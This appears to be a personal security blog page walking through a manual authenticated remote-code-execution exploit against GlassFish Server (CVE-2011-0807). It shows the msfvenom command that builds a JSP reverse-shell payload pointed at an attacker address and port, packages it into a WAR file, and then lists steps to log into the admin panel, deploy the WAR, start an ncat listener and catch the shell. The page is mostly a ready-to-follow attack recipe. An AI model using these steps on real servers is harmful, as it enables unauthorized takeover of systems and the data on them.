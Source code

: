 ```yaml
---
layout: default
title : nighthawk - Glassfish - Authenticated RCE Manual exploit
---
```


### Description
This module logs in to an GlassFish Server 3.1 (Open Source or Commercial) instance using a default credential, uploads, and executes commands via deploying a malicious WAR.  On Glassfish 2.x, 3.0 and Sun Java System Application Server 9.x. 

### CVE
CVE-2011-0807

### Steps to exploit

```shell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Glassfish]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.139.10 LPORT=5566 -f raw -o shell.jsp   
Payload size: 1499 bytes
Saved as: shell.jsp
                                                                                                                                                            
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Glassfish]
└─$ mkdir shell                                                                              
                                                                                                                                                            
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Glassfish]
└─$ cp shell.jsp shell                                        
                                                                                                                                                            
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Glassfish]
└─$ cd shell          
                                                                                                                                                            
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Glassfish/shell]
└─$ jar -cvf ../shell.war *
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
added manifest
adding: shell.jsp(in = 1499) (out= 587)(deflated 60%)
                                                                                                                                                            
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Glassfish/shell]
└─$ cd ../                
                                                                                                                                                            
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Glassfish]
└─$ ls                    
shell  shell.jsp  shell.war
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/fd63d2c9-b5fe-450d-8347-61b526778408)

Glassfish 3.1.3

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/0d77f179-3c5a-436a-90a9-e9897ffbe5f6)

login to the admin panel and click on deploy an application 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/f0076c46-d4c1-460c-9e91-770e0f214a86)

upload the war shell file we created earlier and click ok to upload 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/3864d48b-aaed-4c58-bbb5-02a3bb2c1a46)

click launch to launch the appliication and start your listener on ncat

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/6230eb44-1cd9-40a9-8bcb-825b6fbeeb92)

click on the link to trigger the shell

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/4a64396d-0584-467b-b099-23b6b6b79b13)

check back your listener 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/9e4c52bd-8986-4746-a151-ccbbf1cb3059)

we got a reverse shell. and we are through 🙂 easy huh?
